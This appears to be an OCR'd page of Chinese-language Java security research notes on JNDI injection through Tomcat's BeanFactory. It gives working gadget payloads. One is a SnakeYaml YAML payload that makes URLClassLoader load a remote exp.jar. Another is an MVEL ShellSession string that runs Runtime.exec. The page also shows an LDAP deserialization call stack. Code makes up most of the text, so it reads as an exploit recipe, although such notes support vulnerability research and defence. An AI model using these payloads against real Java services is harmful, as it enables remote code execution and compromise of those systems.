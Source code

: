 `org.yaml.snakeyaml.Yaml#load(String)`SnakeYaml反序列化，版本2.2前默认构造函数不会调用safeC

```java
  ResourceRef ref = new ResourceRef("org.yaml.snakeyaml.Yaml", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
  String yaml = "!!javax.script.ScriptEngineManager [\n" +
          "  !!java.net.URLClassLoader [[\n" +
          "    !!java.net.URL [\"http://127.0.0.1:8888/exp.jar\"]\n" +
          "  ]]\n" +
          "]";
  ref.add(new StringRefAddr("forceString", "a=load"));
  ref.add(new StringRefAddr("a", yaml));
```

`com.thoughtworks.xstream.XStream#fromXML(String)`

`org.mvel2.sh.ShellSession#exec`

```java
 ResourceRef ref = new ResourceRef("org.mvel2.sh.ShellSession", null, "", "",
            true, "org.apache.naming.factory.BeanFactory", null);
  ref.add(new StringRefAddr("forceString", "a=exec"));
  ref.add(new StringRefAddr("a",
          "push Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator');"));
```

`com.sun.glass.utils.NativeLibLoader#loadLibrary(String)`，根据参数加载指定位置动态链接库，执行命令

### com.sun.jndi.ldap.Obj本地反序列化

- `com.sun.jndi.ldap.Obj#deserializeObject`，参数`javax.naming.directory.Attributes`
- Attributes存储byte[]，可用于反序列化

```
readObject:1170, Hashtable (java.util)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1170, ObjectStreamClass (java.io)
readSerialData:2232, ObjectInputStream (java.io)
readOrdinaryObject:2123, ObjectInputStream (java.io)
readObject0:1624, ObjectInputStream (java.io)
readObject:464, ObjectInputStream (java.io)
readObject:422, ObjectInputStream (java.io)
deserializeObject:531, Obj (com.sun.jndi.ldap)
decodeObject:239, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
```
